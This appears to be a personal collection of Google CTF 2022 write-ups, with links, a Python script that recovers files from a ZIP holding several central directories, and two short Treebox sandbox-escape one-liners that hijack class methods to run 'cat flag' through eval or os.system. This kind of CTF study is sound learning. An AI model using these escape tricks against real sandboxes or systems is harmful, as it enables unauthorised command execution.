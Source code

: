 # Google CTF 2022 Writeups - Some that I want to remember and come back to

No particular pattern to the topics here other than "I found it interesting"

I didn't solve any of these myself (Welp 😋), credits for the solutions included where I could find them.

## APPNOTE.TXT 

[Link 1](https://able.bio/sudoaza/appnotetxt-google-ctf-2022--32ef39da) 

[Link 2](https://github.com/piyagehi/CTF-Writeups/blob/main/2022-Google-CTF/misc-appnote.md) ZIP file with dozens (hundreds) of smaller files in it?

@`ContronThePanda#5339`
```py
#!/usr/bin/env python3

# The `dump.zip` file contains multiple central directory structures,
# each of which points to only a single file in the archive.
# By default, zip utilities/parsers scan from the end of the file to find the *last*
# end of central directory signature, and use that central directory.
# By deleting that signature from the last central directory,
# we can make the regular Linux `unzip` utility read the second-to-last central directory instead.
# We can repeat this process to get all of the files in all of the central directories extracted.

from os import system

# Read the zipfile and reverse it, so we can substitute starting from the end
with open('dump.zip', 'rb') as f: zf = f.read()[::-1]

while True:
    # Overwrite the signature with zeroes
    # Since we do this before unzipping the first time,
    # we miss the first central directory,
    # but that one doesn't contain anything important
    zfnew = zf.replace(b'\x06\x05\x4b\x50', b'\0\0\0\0', 1)
    # If nothing was replaced, there are no central directories left
    if zfnew == zf: break
    zf = zfnew
    # Write the modified zip file out
    with open('dump-ed.zip', 'wb') as f: f.write(zf[::-1])
    # Unzip the file with the Linux `unzip` utility
    # The `-o` flag overwrites existing files without asking,
    # just in case we've previously extracted some
    # We redirect the output because the program complains very loudly about what we're doing,
    # even though it still works
    system('unzip -o dump-ed.zip >/dev/null 2>&1')

# The glob will put the files in alphabetical order,
# which is the correct order in this case
system('cat flag*')
# Newline
print()
```

## JS Safe 4.0 

[Link](https://lightstack.ml/posts/googlectf22_jssafe4/)

## TREEBOX 

[Link](https://ur4ndom.dev/posts/2022-07-04-gctf-treebox/)

Shorter solutions I found on the disc
@`crazyman#6644`
```py
tree.__class__.__getitem__ = eval
tree["__import__('os').system('cat flag')"]
```
![Solution image](https://cdn.discordapp.com/attachments/984517082853036103/993224517658890270/unknown.png)

@`温柔小🐷#0995`
```py
os.environ.__class__.__contains__ = os.system
'cat flag' in os.environ
```


## Postviewer

[Intended solution](https://gist.github.com/terjanq/7c1a71b83db5e02253c218765f96a710)

[Challenge URL](https://postviewer-web.2022.ctfcompetition.com/)

#### TODO: Get challenge URLs or code for the rest before they are lost to time


#### That's all for now. 😄
I'll stalk the gCTF discord for more solutions (Maybe)
